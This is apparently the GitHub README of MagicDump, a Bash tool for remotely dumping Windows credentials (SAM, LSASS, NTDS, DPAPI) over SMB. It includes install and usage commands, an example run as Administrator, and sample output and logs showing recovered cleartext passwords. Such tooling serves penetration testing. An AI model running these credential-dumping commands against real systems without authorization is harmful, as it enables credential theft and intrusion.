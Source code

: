 # MagicDump

MagicDump is an automated tool designed to remotely dump credentials from Windows machines, including SAM, LSASS, NTDS, and DPAPI. It simplifies the process of extracting sensitive information, providing organized output and support for multiple authentication methods.

<br>

---

<br>

## Features
- **Credential Dumping**: Automates dumping of SAM, LSASS, NTDS, and DPAPI credentials.
- **Flexible Authentication**:
  - Username and Password Authentication.
  - (Upcoming) Pass-the-Hash and Pass-the-Ticket.
- **Organized Output**:
  - Logs actions in JSON format.
  - Saves dumps and logs to `~/.magicdump/`.
- **Real-Time Feedback**: Displays actions on the screen as they happen.

<br>

---

<br>

## Requirements
- Bash Shell
- Tools for credential dumping (e.g., `impacket`, `netexec`, etc.)

<br>

---

<br>

## Installation
Clone the repository:
```bash
git clone https://github.com/Mag1cByt3s/MagicDump.git
cd MagicDump
```

<br>

Make the script executable:
```bash
chmod +x MagicDump
```

<br>

---

<br>

## Usage
Run the script with the required options:
```bash
./MagicDump -t <target_ip> -u <username> -p <password>
```

<br>

### Arguments
- `-t`: specify the target IP address
- `-u`: specify the username to authenticate as
- `-p`: specify the password

<br>

For help:
```bash
./MagicDump -h
```

<br>

---

<br>

## Example
```bash
./MagicDump -t 192.168.1.100 -u Administrator -p SuperSecretPass123
```

<br>

Output:
```bash
[INFO] Starting MagicDump against target 192.168.1.100
[INFO] Authenticating as user 'Administrator'...
[INFO] Connecting to target 192.168.1.100 via SMB...
[LOG] Operation: SAM, Status: success
[INFO] SAM dump saved to /home/pascal/.magicdump/dumps/SAM_dumped_192.168.1.100.txt
[LOG] Operation: LSASS, Status: success
[INFO] LSASS dumped and decrypted successfully
[CREDENTIALS FOUND]:
Administrator: SuperSecretPass123
User1: Passw0rd!
[LOG] Operation: NTDS, Status: failed
[WARNING] Failed to dump NTDS: Access denied
[INFO] Dumping complete. Logs saved to /home/pascal/.magicdump/logs/report_192.168.1.100_20250104135344.json.
```

<br>

---

<br>

## Logfile example

```json
{
  "target_host": "192.168.1.100",
  "operation_time": "2025-01-04T13:53:44Z",
  "credentials_dumped": {
    "SAM": {
      "status": "success",
      "file_path": "/home/pascal/.magicdump/dumps/SAM_dump_192.168.1.100.txt"
    },
    "LSASS": {
      "status": "success",
      "file_path": "/home/pascal/.magicdump/dumps/LSASS_dump_192.168.1.100.dmp",
      "decrypted_credentials": [
        {
          "username": "Administrator",
          "password": "SuperSecretPass123"
        },
        {
          "username": "User1",
          "password": "Passw0rd!"
        }
      ]
    },
    "NTDS": {
      "status": "failed",
      "error": "Access denied"
    }
  },
  "warnings": [
    "Failed to dump NTDS: Access denied"
  ],
  "logs": [
    "Starting MagicDump against target 192.168.1.100",
    "Authenticating as user 'Administrator'...",
    "Connecting to target 192.168.1.100 via SMB...",
    "Operation: SAM, Status: success",
    "SAM dump saved to /home/pascal/.magicdump/dumps/SAM_dump_192.168.1.100.txt",
    "Operation: LSASS, Status: success",
    "LSASS dumped and decrypted successfully",
    "Operation: NTDS, Status: failed",
    "Failed to dump NTDS: Access denied",
    "Dumping complete. Logs saved to /home/pascal/.magicdump/logs/report_192.168.1.100_20250104135344.json."
  ]
}
```

<br>

---

<br>

## Roadmap
- Add support for Pass-the-Hash and Pass-the-Ticket authentication.
- Integrate more advanced credential dumping techniques.
- Encrypt logs and dumps for security.

<br>

---

<br>

## License
[GPLv3 License](LICENSE)

<br>

---

<br>

## Disclaimer
**MagicDump is intended for authorized use only.** Ensure you have permission before using this tool on any system.
